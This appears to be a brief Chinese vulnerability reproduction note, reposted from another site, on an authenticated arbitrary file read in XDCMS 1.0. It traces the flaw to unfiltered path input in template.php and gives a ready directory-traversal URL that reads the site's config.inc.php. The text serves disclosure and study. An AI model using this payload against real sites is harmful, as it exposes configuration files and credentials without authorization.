


# XDCMS 1.0 后台任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3276](https://www.zhihuifly.com/t/topic/3276)

# XDCMS 1.0 后台任意文件读取

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞文件漏洞文件：`system\modules\xdcms\template.php`，同上述xss漏洞相同



第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤

```
http://www.0-sec.orv/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php 
```

后台任意文件读取。

